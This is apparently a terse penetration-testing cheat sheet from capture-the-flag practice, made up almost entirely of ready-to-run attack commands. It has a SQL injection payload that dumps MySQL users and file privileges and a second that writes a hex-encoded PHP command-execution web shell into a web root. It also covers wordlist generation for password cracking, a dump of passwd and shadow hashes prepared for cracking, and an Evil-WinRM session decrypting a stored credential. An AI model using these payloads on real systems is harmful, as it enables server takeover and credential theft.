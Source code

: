 ## Sql file writeable check payload 

" union all select 1,2,3,group_concat(user,0x3a,file_priv) from mysql.user -- -

**SQL file write**

" Union Select 1,0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d,3,4 INTO OUTFILE '/var/www/html/shell.php' -- -

## Custom wordlist generator

Example:
crunch 4 4 0123456789 -o wordlist.txt to generate 4 number wordlist

```
cewl http://hamlet.thm/hamlet.txt --lowercase | awk 'length($0)>=12 && length($0)<=14' | uniq > wordlist.txt
```

## Shadow decrypt

```bash
cat passwd            
root:x:0:0:root:/root:/bin/bash
                                                                                                                                                                      
cat shadow 
root:$y$j9T$.9s2wZRY3hcP/udKIFher1$sIBIYsiMmFlXhKOO4ZDJDXo54byuq7a4xAD0k9jw2m4
                                                                                                                                                                      
unshadow passwd shadow > unshadow

``` 

## powershell xml open

```bash
*Evil-WinRM* PS C:\Users\lvetrova> cat lvetrova.xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">Your Flag is here =&gt;</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb010000009db56a0543f441469fc81aadb02945d20000000002000000000003660000c000000010000000069a026f82c590fa867556fe4495ca870000000004800000a0000000100000003b5bf64299ad06afde3fc9d6efe72d35500000002828ad79f53f3f38ceb3d8a8c41179a54dc94cab7b17ba52d0b9fc62dfd4a205f2bba2688e8e67e5cbc6d6584496d107b4307469b95eb3fdfd855abe27334a5fe32a8b35a3a0b6424081e14dc387902414000000e6e36273726b3c093bbbb4e976392a874772576d</SS>
    </Props>
  </Obj>
</Objs>
*Evil-WinRM* PS C:\Users\lvetrova> $Credential = Import-Clixml -Path ".\lvetrova.xml"
*Evil-WinRM* PS C:\Users\lvetrova> $Credential.GetNetworkCredential().password
THM{694362e877adef0d85a92e6d17551fe4}

```
